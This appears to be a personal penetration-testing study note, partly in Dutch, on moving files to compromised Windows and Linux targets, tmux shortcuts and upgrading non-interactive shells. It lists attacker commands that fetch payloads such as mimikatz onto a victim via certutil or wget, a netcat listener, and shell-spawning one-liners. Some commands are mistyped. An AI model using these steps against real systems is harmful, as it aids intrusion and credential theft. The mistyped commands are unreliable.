 ## Transferring Files
 sudo nmap -sV -sT -sC {IP} -p- --open

heart 1
#####  set up webserver with python
Two step approach where you need to host the files you want to transfer on a web server (1) and download the files hosted on the web server to the target system (2). 

**SimpleHTTPServer => python2
http.server => python3** 

- copy file: `cp path/file.exe .` 
- set up http server: 
	- with python2: `python -m SimpleHTTPServer port`
	- with python 3: `python3 -m http.server port`


##### Transfer to windows targets

- exploit vulnerability with searchsploit
- read comments in exploit file 
- start http server in correct location where file is stored: 
- set up netcat listener 
- simple command shell session is established (if it did not work run again )
transfer file to target system in `tmp` directory 
- ./mimikatz.exe is to execute the file

Downloading without python http-server
- in a command shell, download file: `certutil -urlcache -f http://adres_webserver_ip/filename_downloading.exe file_savingname.exe`


##### Transfer to linux targets 



- tmux (multiple terminal sessions in 1)
	- new: control + B + C 
	- *  is waar je nu active in bent 
	- new: control + B + 0 
	- control + pijltjes om te scrollen 
	- to get a list of all commands: `Ctrl+b` `?` 
	- detach from the Tmux session and return to your normal shell by typing: `Ctrl+b` `d
	-  `Ctrl+b` `c` Create a new window (with shell)
	- `Ctrl+b` `w` Choose window from a list
	- `Ctrl+b` `0` Switch to window 0 (by number )
	- `Ctrl+b` `,` Rename the current window
	- `Ctrl+b` `%` Split current pane horizontally into two panes
	- `Ctrl+b` `"` Split current pane vertically into two panes
	- `Ctrl+b` `o` Go to the next pane
	- `Ctrl+b` `;` Toggle between the current and previous pane
	- `Ctrl+b` `x` Close the current pane
	- `q` om te kunnen typen 


/samba/is_known_pipename
- `/bin/bash -i `
- `cat /etc/*release`

transfer file to victim 
- `control+b c `
- set up python file server in the right path: `python3 -m http.server 80` 
- Download file `wget http://adres_webserver/filename.exe ` 





## Shells 

##### Upgrading non-interactive shells 

Non interactive shell is a shell without a prompt ![[Pasted image 20230920164420.png]]

**How to get interactive shell**

Method 1
- list shells installed don system: `etc /etc/sells 
	- use any of the shells and add `-i `
	  
Method 2 getting interactive shell with programming languages 
- version of python is installed: `python version`
	- `python -c 'import pty; pty.spawn("/bin/bash")' `
- perl
	- `perl help `
	- `perl: exec "/bin/bash";
- ruby
	- `ruby: exec "bin/bash"`


Method: 3 getting interactive shell 
Get interactive shell through:
- Enter the following command to set the PATH environment variable, which tells the system where to find executable files: `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr:/bin:sbin:/bin `
- This will display a list of environment variables, including the one you just set. `env` 
- This command specifies the terminal type you'll be using in your shell session. `export TERM=xtern`
- This command sets your default shell to Bash. `export SHELL=bash` 
- to view the contents of the current directory with additional details (including file sizes and permissions), use the following command:  `ls -alps`
